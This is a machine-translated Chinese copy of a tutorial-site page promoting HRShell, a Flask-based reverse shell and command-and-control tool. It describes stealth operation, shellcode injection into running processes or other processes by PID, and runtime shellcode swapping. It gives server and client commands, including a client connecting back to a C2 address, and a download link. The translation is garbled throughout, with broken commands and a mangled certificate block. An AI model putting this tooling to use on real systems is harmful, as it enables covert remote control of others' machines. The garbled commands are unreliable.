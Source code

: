 # HRShell:用 Flask 构建的 HTTPS/HTTP 反向外壳

> 原文：<https://kalilinuxtutorials.com/hrshell-https-http-reverse-shell-built-with-flask/>

HRShell 是一个用 flask 构建的 HTTPS/HTTP 反向 Shell。这是一个先进的 C2 服务器，具有许多功能&。

这是一个用 flask 构建的 HTTPS/HTTP 反向外壳。它与 python 3.x 兼容，并已在以下平台上成功测试:

*   Linux Ubuntu 18.04 lt，Kali Linux 2019.3
*   马科斯·莫哈维
*   Windows 7/10

![](img//2d154e29677a36d409dc3b55be97e390.png)

**特点**:

*   它是隐形的
*   **TLS** 支持
    *   使用即时证书或
    *   通过指定一个证书/密钥对(更多细节见下文…)
*   外壳代码注入(更多细节见下文……)
    *   要么在当前运行进程的线程中注入外壳代码
        *   迄今支持的平台:
            *   **Windows x86**
            *   **Unix x86**
            *   **Unix x64**
    *   或者通过指定 PID 将外壳代码注入另一个进程(`migrate <PID>`)
        *   迄今支持的平台:
            *   **Windows x86**
            *   **Windows x64**
*   外壳代码可以在服务器上动态设置/修改(更多细节见下文…)
*   客户端上的代理支持。
*   目录导航(`cd`命令和变体)。
*   `download/upload/screenshot`可用命令。
*   支持流水线(`|` ) &)链式命令(`;`)
*   支持每一个非交互式(如 gdb，top 等)命令
*   服务器支持 HTTP 和 HTTPS。
*   到目前为止，它配备了两个内置服务器… flask 内置& tornado-WSGI，同时它还兼容其他生产服务器，如 [`gunicorn`](http://gunicorn.org/) 和 [`Nginx`](https://www.nginx.com/) 。
*   `server.py`和`client.py`都很容易扩展。
*   因为大部分功能来自服务器的端点设计，所以用其他语言编写客户端非常容易，例如 java、GO 等

**也可理解为-****[路由器漏洞挖掘铲:无线路由器上栈溢出类型的自动应用生成](https://kalilinuxtutorials.com/router-exploit-shovel-automated-application-generation-for-stack-overflow-types-on-wireless-routers/)**

**详情**

**TLS 键**

**服务器端:**除非指定了–http 选项，否则默认情况下 server.py 是使用动态证书的 HTTPS，因为动态证书是一个内置的 flask 特性。但是，如果为了使服务器使用 TLS 而指定了-s tornado 选项，则必须指定 a-cert 和 a-key 选项，如下所示:

**python server . py-s tornado–cert/path/cert . PEM–key/path/key . PEM**

可以使用“真正的”证书，或者另一种生成证书/密钥对的方法是使用 openssl，如下所示:

**OpenSSL req-x509-new key RSA:4096-nodes-out cert . PEM-keyut key . PEM-days 365**

证书/密钥对也可用于 flask 服务器:

**python server . py–cert/path/cert . PEM–key/path/key . PEM**

> **注意**:如果服务器使用 TLS，那么根据设计，客户端不能使用`http://...`连接到服务器，而必须显式使用`https`来代替。

**客户端:**默认情况下，客户端的 SSL 验证被禁用，除非:

*   要么指定–cert 参数，例如:

**python client . py-s https://192 . 168 . 10 . 7:5000–cert/path/cert . PEM**

*   或者 CERT 变量，而不是缺省的 None 值，是预先用有效的证书设置的，例如:

**证书=”
——开始证书】
miiboccoucacqawdyjkozykhvcnaqqyqyqawyzermakga 1 uebhmcqvuxezarbgnv
bagtclf 1 zw vuc 2 xhbmqxgjaybgnvboteunyexb 0 u 29 mdcbhkgthrkmsmqyd
vqqdexpat**

在这种情况下，client.py 将尝试动态创建一个隐藏的. cert.pem 文件，并将使用该文件。

**外壳代码注入**

外壳代码注入有两种“模式”,分别使用以下两个命令:

1.  使用这个命令，我们可以通过指定进程的 PID 将外壳代码注入到另一个进程的内存空间中。目前这个命令只能应用在 **Windows x86/x64** 平台上！

![](img//e7f5599ef6d98098a3c2fddcd0dfb3d7.png)

2.使用这个命令，我们当前进程的一个新线程被创建，外壳代码注入发生在它的内存空间中。因此，我们的 HTTP(S) shell 不会受到注入的影响。该命令可以应用的平台有: **Unix x86/x64，Windows x86** 平台！

![](img//47f8cb3874e7eda326ef3cdb390b9294.png)

**注意:**如果注入发生在一个流程上，那么流程权限起着非常重要的作用。由于缺乏适当的权限，并不总是能够在任何进程上注入。

**设置/修改外壳代码**

有两种方法可以指定/设置希望客户端执行的外壳代码类型:

*   将`client.py`脚本上的`shellcode`变量预设为有效的外壳代码，或者
*   使用`set shellcode <shellcode-id>`命令动态完成该操作。使用这个命令，您可以从服务器端更新您的外壳代码，次数不限！

![](img//6739916f6e0230995410f3f3fac33506.png)

第一种方法非常简单。然而，为了使用第二种更方便的方法(*，因为你也可以修改一个已经指定的外壳代码*)，你必须设置`shellcodes/utils.py`脚本，使其包含你选择的外壳代码。该脚本包含了一个如何做到这一点的示例。

> 你可以修改/更新`shellcodes/utils.py`脚本，即使你已经启动了`server.py`多次，因为`server.py`将动态使用最新/最近的版本。通过这种方式，您可以随时设置&修改外壳代码…

**可用命令:** **特殊命令**

![](img//b98ccd5fe92b5d308b64e605230be044.png)

支持任何其他命令，如果它是**而不是**像*那样交互的，例如 gdb、top 等……*也可以通过键入`python server.py -h`或`python client.py -h`获得服务器和客户端可用参数的信息。

**注意:**如果一个客户端与服务器连接，我们想终止服务器，在按 CTRL+C 之前，我们必须使用`exit`命令关闭连接。

**创建自定义命令**

**客户端:**

为了创建一个*自定义*命令，一般情况下:

*   描述命令的正则表达式规则必须在客户端定义
*   处理该命令的代码必须作为一个`elif`语句添加到客户端。

**服务器端:**

如果该命令要求服务器端存在新端点，则:

*   要定义端点:

**@ app . route('/custom _ endpoint/')
def custom _ endpoint(arg):
" " "
文档如果需要
"""
…
return …**

*   然后编辑 handleGET()将客户端重定向到该端点:

**@ app . route('/')
def handleGET():
……
return redirect(URL _ for(' custom _ endpoint '，
arg =……)
)**

*   在 handlePOST()中进行适当的编辑，以处理结果的显示。

**脚本参数**

两个脚本(server.py 和 client.py)都可以通过参数进行自定义:

**server.py**

**$ python server.py -h
用法:server . py[-h][-S][-c][–host][-p][–HTTP][–cert][–key]

server . py:具有高级功能的 HTTP(S)反壳服务器。

参数:
-h，–help 显示此帮助消息并退出
-s，–server 指定要使用的 HTTP(S)服务器(默认:flask)。
-c，–客户端仅接受来自指定客户端/IP 的连接。
–主机指定要使用的 IP(默认值:0.0.0.0)。
-p，–port 指定要使用的端口(默认值:5000)。
–http 禁用 TLS，改用 HTTP。
–cert 指定要使用的证书(默认值:无)。
–key 指定要使用的相应私钥(默认:无)。**

**client.py**

**$ python client.py -h
用法:client . py[-h][-S][-c][-p]

client . py:具有高级功能的 HTTP(S)客户端。

参数:
-h，–help 显示此帮助消息并退出
-s，–server 指定要连接的 HTTP(S)服务器。
-c，–cert 指定要使用的证书。
-p，–proxy 指定要使用的代理【格式:主机:端口】**

**要求**:

安装服务器-要求:

**pip install-r requirements . txt–升级–用户**

**免责声明**

该工具仅用于测试和学术目的，并且只能在严格同意的情况下使用。请勿用于非法目的！最终用户有责任遵守所有适用的地方、州和联邦法律。开发人员不承担任何责任，也不对该工具和软件造成的任何误用或损坏负责。

**演职员表**:塞茨 j .灰帽蟒

[Download](https://github.com/chrispetrou/HRShell)
